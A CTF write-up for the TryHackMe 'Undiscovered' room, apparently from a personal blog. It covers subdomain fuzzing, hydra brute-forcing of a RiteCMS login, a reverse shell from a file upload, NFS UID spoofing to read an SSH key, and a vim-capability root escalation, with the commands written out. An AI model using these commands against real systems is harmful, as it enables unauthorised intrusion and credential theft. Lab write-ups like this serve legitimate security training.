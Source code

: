 ```yaml
---
title: "Undiscovered - TryHackMe"
date: "2021-02-13"
categories: 
  - "tryhackme"
tags: 
  - "hydra"
  - "sub-domain"
  - "web"
coverImage: "Undiscover.jpeg"
---
```


Write-up for Tryhackme room [Undiscovered](https://tryhackme.com/room/undiscoveredup).

Difficulty Level - Medium

Start with nmap scan as usual.

```
nmap -A -oN initial $IP
```

![](/Images/undiscovered/Screenshot-2021-02-13-204154.png)

after that i tried directory brute-force with gobuster but no luck, since we add the domain name to our "**/etc/hosts**" maybe its something to do with sub-domains.

using "**wfuzz**" we can brute-force subdomain

```
wfuzz -c -f sub-lists.txt -w /opt/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://undiscovered.thm' -H "Host: FUZZ.undiscovered.thm" --hc --hw 290
```

![](/Images/undiscovered/Screenshot-2021-02-13-210842.png)

now we need to add those sub domain to "**/etc/hosts**" to access.

![](/Images/undiscovered/Screenshot-2021-02-13-211527.png)

when we go to manager.undiscovered.thm we can see CMS type and version, with those details we can search for exploit available in [Exploit Database](https://www.exploit-db.com/)

i found these 2 vulnerable exploits.

1. [RiteCMS 2.2.1 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/48915)
2. [RiteCMS 2.2.1 - Authenticated Remote Code Execution](https://www.exploit-db.com/exploits/48636)

according to exploit database if we able to access "**http://website/CMS**" we can find login panel with luck using default credential we can login.

so to do that i wrote bash script,

```
#!/bin/bash

cat sub-lists.txt | while read line; do 
        curl "http://$line.undiscovered.thm/cms"
done

```

![](/Images/undiscovered/Screenshot-2021-02-13-212938.png)

we found the correct URL but unfortunately default password will not work so need to brute-force with hydra.

```
hydra -l admin -P /opt/rockyou.txt -f deliver.undiscovered.thm http-post-form "/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong"
```

![](/Images/undiscovered/Screenshot-2021-02-13-21-35-37-1024x199.png)

we found the password now we can login and find a way to upload shell file and get reverse shell.

```
Administration => File Manager => Upload file
```

![](/Images/undiscovered/Screenshot-2021-02-13-214322.png)

clicking file will execute the file and we get the reverse shell.

![](/Images/undiscovered/Screenshot-2021-02-13-214518-1024x148.png)

we can enumerate with linpeas.sh we can see this detail.

![](/Images/undiscovered/Screenshot-2021-02-13-215711.png)

if we create william user in our PC using same id we could mount the home with VM

```
sudo adduser -u 3003 william
```

![](/Images/undiscovered/Screenshot-2021-02-13-220214.png)

to mount the folder

```
sudo mount -t nfs undiscovered.thm:/home/william/ /home/william/
```

![](/Images/undiscovered/Screenshot-2021-02-13-221239.png)

first change william home folder executable by all.

```
chmod 777 /home/william
```

the "script" binary is SUID when we execute it read "**admin.sh**" when we analyze it we can notice we can give a parameter(file to read) since it belong to leonard we can try to read leonard ssh key.

![](/Images/undiscovered/Screenshot-2021-02-13-223333.png)

now login as user leonard

```
ssh -i id_rsa leonard@$IP
```

## Privilege Escalation

again run the linpeas get more details as user leonard

![](/Images/undiscovered/Screenshot-2021-02-13-223926.png)

"vim.basic" look suspicious so i went to checked the [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#capabilities), with suggested method we can escalate.

```
/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

![](/Images/undiscovered/Screenshot-2021-02-13-224411.png)

Finally Root!!

Hack the planet, spread the knowledge!!
